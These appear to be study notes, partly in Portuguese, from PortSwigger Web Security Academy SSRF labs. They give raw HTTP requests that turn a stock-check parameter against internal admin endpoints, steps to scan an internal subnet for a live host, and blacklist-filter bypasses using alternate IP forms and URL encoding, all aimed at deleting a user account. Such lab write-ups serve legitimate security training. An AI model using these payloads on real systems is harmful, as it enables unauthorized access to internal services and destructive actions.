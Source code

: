 Original request:

<pre>
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=<b>http://192.168.0.68/admin</b>
</pre>

1. Utilize o Intruder para fazer brute-force no escopo do IP apresentado. (192.168.0.0/24)
2. Encontre o host que tenha uma resposta **200**.
3. Delete a conta **carlos**.

Modified request:

<pre>
POST /product/stock HTTP/1.1
Host: ac651f621f1a3dbf80711543008b00f0.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://ac651f621f1a3dbf80711543008b00f0.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Origin: https://ac651f621f1a3dbf80711543008b00f0.web-security-academy.net
Content-Length: 63
Connection: close
Cookie: session=yFkvTJbphy0CMHlIcToEFFcRsLK4kFG7

stockApi=<b>http://192.168.0.245:8080/admin/delete?username=carlos</b>
</pre>

# Bypass defenses

### Blacklist-based input filters

Some applications block input containing hostnames like 127.0.0.1 and localhost, or sensitive URLs like /admin. In this situation, you can often circumvent the filter using various techniques:

- Using an alternative IP representation of 127.0.0.1, such as 2130706433, 017700000001, or 127.1.
- Registering your own domain name that resolves to 127.0.0.1. You can use spoofed.burpcollaborator.net for this purpose.
- Obfuscating blocked strings using URL encoding or case variation.

Request bypassing:

<pre>
POST /product/stock HTTP/1.1
Host: acfe1ff11f45e9578076891e00fa005a.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://acfe1ff11f45e9578076891e00fa005a.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Origin: https://acfe1ff11f45e9578076891e00fa005a.web-security-academy.net
Content-Length: 67
Connection: close
Cookie: session=g1L621qZGsDr5z5CA9vHuWtMZkmTUe7V

stockApi=<b>http://2130706433%2f%41%64%4d%69%4e/delete?username=carlos</b>
</pre>

